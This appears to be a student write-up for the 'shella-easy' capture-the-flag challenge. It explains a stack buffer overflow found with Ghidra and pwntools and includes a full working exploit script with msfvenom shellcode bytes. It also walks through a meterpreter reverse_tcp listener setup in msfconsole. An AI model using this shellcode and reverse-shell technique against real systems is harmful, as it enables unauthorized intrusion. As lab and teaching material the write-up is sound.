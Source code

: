 # This is the documentation for the shella ctf challenge

## Step-by-Step Guide

This document outlines the steps taken to identify and exploit a buffer overflow vulnerability
using tools like Ghidra, virtual environment, and Python. Each step is critical to
understanding the target system, identifying the vulnerability, executing a shellcode, and
creating a succesful exploit.


### File information:

shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped



### Security information

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      SymbolsFORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   71 Symbols       No    0               2               shella-easy                                    
                                                                                               

### 3. Identifying the Target Memory Address

**Description:**
Finding the memory address you want to return to after exploiting the buffer overflow is
critical for hijacking. In this case the memory address we want was within the sentence
displayed when the shella-easy program is run.

* **Analyze the Binary:** Using Ghidra to identify the memory address you want to redirect
execution to. Ghidra is also good for knowing how far you are from a desire address and how
much you need to pad it to reach there.

* **Record the Address:** This address will be used later in the payload to overwrite the
return address. We record multiple address in this challenge because we have to bypass certain
obstacles to get to where we wanted. For example in Ghidra we found a conditional statment that
needed the memory address of deadbeef in order for the program to not just exit.


#4. The use of padding and shellcode

**What is cyclic: **
In our explotation code we use a function called cyclic which is a built in function of the
pwntools library. This function is supposed to create a unique pattern of characters in which
we shoud be able to find after inputting it in a function. Using the other built in function
cyclic_find() in which you insert a memory address of where the unique pattern is in memory
and show the distance in which how far away you are. These two tools was helpful in indentifying
how much we needed to pad the code.


**msfvenom: ** 
We used Metasploit framework to generate a better shellcode to implement in our payload.
Since the payload was larger than the previous one we used, we integrated nop slides in order
to help us reach it in memory after overriding the return address. 


**msfconsole :**
We also utilized msfconsole a listener to listen when the shellcode is executed and connect to
the port and the local host specified in the shellcode generated from the metasploit framework.
The steps to start up the console was to call msfconsole, use linux/x86/meterpreter/reverse_tcp
(the payload), set LPORT 4444, set LHOST 127.0.0.1, exploit. This than connectes to the shellcode
that has been executed. 
 


#5. The exploit code

```python
 from pwn import * 

 # initalizing the process
 pw = process("./shella-easy")

 # Recieve data until the > symbol
 pw.recvuntil(b'have a')

 the_memory = pw.recv(12)

 # sends data to buffer overflow while also sending the address we want
 print(the_memory)

 payload = b''

 # This shellcode is from: msfvenom payload list
 
 buf =  b""
 buf += b"\xbe\x05\x55\x5d\x4a\xdb\xdc\xd9\x74\x24\xf4\x5d"
 buf += b"\x2b\xc9\xb1\x1f\x31\x75\x15\x83\xed\xfc\x03\x75"
 buf += b"\x11\xe2\xf0\x3f\x57\x14\xcb\x64\x90\x4b\x78\xd8"
 buf += b"\x0c\xe6\x7c\x6e\xd4\x7f\x61\x43\x99\x17\x3a\x34"
 buf += b"\xe5\x17\xbc\xc5\x71\x1a\xbc\xd4\xdd\x93\x5d\xbc"
 buf += b"\xbb\xfb\xcd\x10\x13\x75\x0c\xd1\x56\x05\x4b\x16"
 buf += b"\x11\x1f\x1d\xe3\xdf\x77\x03\x0b\x20\x88\x1b\x66"
 buf += b"\x20\xe2\x9e\xff\xc3\xc3\x69\x32\x83\xa1\xa9\xb4"
 buf += b"\x39\x42\x0e\xf5\x45\x2c\x50\xe9\x49\x4e\xd9\xea"
 buf += b"\x8b\xa5\xd5\x2d\xe8\x36\x55\xd0\x22\xc6\x10\xeb"
 buf += b"\xc5\xd7\x41\x65\xd4\x41\xc7\x1f\xa7\x71\xea\x60"
 buf += b"\x42\xb5\x8c\x62\xb2\xd7\xd4\x62\x4c\x18\x24\xde"
 buf += b"\x4d\x18\x24\x20\x83\x98"


 #gdb.attach(pw, gdbscript = 'b *0x8048548')


 # This is to make sure the shellcode lines up with our deadbeef 
 payload += b'A' * 64

 # The memory address of deadbeef needed to bypass the conditional statement
 payload += p32(0xDEADBEEF)

 # This is to line up the return address
 payload += b'B' * 8


 # The return address where are shellcode is in memory
 payload += p32(int(the_memory,16) + 88)

 payload += b'\x90' * 8

 payload += buf

 # Sends the payload
 pw.sendline(payload)

 print(pw.recvline())

 # allows us to interact with the process
 pw.interactive()
 

```


### Conclusion

When going through these steps you realize it is important to know what your objective is
and taking each progress step by step. In order for one block of code to execute it relies on
the execution of another block of code or condition that was cleared earlier. Knowing the
convertions of hexadecimle and binary was important and padding was critical in this challenge.
It's like a puzzle in which you need to find all your pieces in order to create a succesful 
exploitation.
 

